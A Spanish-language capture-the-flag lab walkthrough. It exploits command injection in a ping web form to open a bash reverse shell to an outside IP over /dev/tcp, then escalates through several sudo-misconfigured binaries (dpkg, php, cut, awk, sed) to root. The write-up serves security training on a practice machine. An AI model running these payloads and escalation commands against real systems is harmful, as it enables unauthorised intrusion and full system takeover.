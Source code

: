 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```
![alt text](image.png)

Una vez vemos que tenemos el escaneo, observamos que hay un puerto que muestra una estructura html, así que vamos a ver que nos muestra. El puerto es el 5000.
![alt text](image-1.png)

Vemos que realiza un sistema de ping, pero vamos a ver si le podemos hacer un comand injection, para ello pondremos lo siguiente.
```
;id
```
![alt text](image-2.png)

Vemos que muestra el contenido de que si hubiesemos ejecutado un comando en el terminal. Al ver que le podemos pasar comandos, vamos generarnos una shell.
```
Terminal:
nc -lnvp 6969

Web:
;bash -c 'exec bash -i &>/dev/tcp/192.168.80.130/6969 <&1'
```
![alt text](image-3.png)

![alt text](image-4.png)

Le damos click a ping.
![alt text](image-5.png)

Al darle click nos hemos generado una terminal, ahora vamos hacer un tratamiento de tty para evitar problemas en la terminal.
```
script /dev/null -c bash
Ctl + z
stty raw -echo;fg
reset xterm
export SHELL=bash
export TERM=xterm
```

Una vez hayamos ejecutado estos comandos, vamos a ver si tiene algun binario para escalar permisos.
```
sudo -l
```
![alt text](image-6.png)

Vemos que podemos pivotar al usuario bobby con el binario dpkg. Para ello vamos a ver comos se explota, para ello usarmeos la herramienta searchbins.
```
searchbins -b dpkg -f sudo
```
![alt text](image-7.png)

Una vez ya sabemos como se explota, vamos a ello.
```
sudo -u bobby /usr/bin/dpkg -l
```
![alt text](image-8.png)

```
!/bin/bash
```
![alt text](image-9.png)

Ya somos bobby, ahora vamos a ver si podemos pivotar a otro usuario o directamente a root.
```
sudo -l
```
![alt text](image-10.png)

Vemos que nos podemos aprovechar del binario php. Vamos a ver como
```
searchbins -b php -f sudo
```
![alt text](image-11.png)

Una vez ya sabemos como explotarlo, vamos a explotarlo.
```
sudo -u gladys /usr/bin/php -r "system('/bin/bash');"
```
![alt text](image-13.png)

Vemos que ya somo gladys. Ahora vamos a volver a ver si podemos escalar a root directamente o tenemos que pivotar a otro usuario.
```
sudo -l
```
![alt text](image-14.png)

Vamos a ver como podemos explotar el binario cut.
```
searchbins -b cut -f sudo
```
![alt text](image-15.png)

Una vez ya sabemos como explotarlo, vamo a ello.
```
LFILE=chocolatitocontraseña.txt
sudo -u chocolatito /usr/bin/cut -d "" -f1 "$LFILE"
```
![alt text](image-16.png)

Vemos que nos suelta la contraseña del usuario chocolatito.
```
su chocolatito
password: chocolatitopassword
```
![alt text](image-17.png)

Vemos que ya somo chocolatito. Ahora vamos a volver a ver si podemos escalar a root directamente o tenemos que pivotar a otro usuario.
```
sudo -l
```
![alt text](image-18.png)

Vemos que podemos escalar al usuario theboss, con el binario awk. Vamos a ver como explotarlo.
```
searchbins -b awk -f sudo
```
![alt text](image-19.png)

Ahora que ya sabemos como explotarlo, vamos a ello.
```
sudo -u theboss /usr/bin/awk 'BEGIN {system("/bin/sh")}'
```
![alt text](image-20.png)

Una vez ya somos theboss, vamos a ver si podemos escalar a root o tenemos que seguir pivotando de usuario.
```
sudo -l
```
![alt text](image-21.png)

Vemos que podemos escalar a root con el binario sed. Vamos a ver como explotarlo.
```
searchbins -b sed -f sudo
```
![alt text](image-22.png)

Una vez ya sabemos como explotarlo, vamos a ello.
```
sudo -u root /usr/bin/sed -n '1e exec sh 1>&0' /etc/hosts
```
![alt text](image-23.png)

Vemos que finalmente somos usuario root, asi que tenemos todos los permisos, eso quiere decir que tenemos el control de la máquina por completo.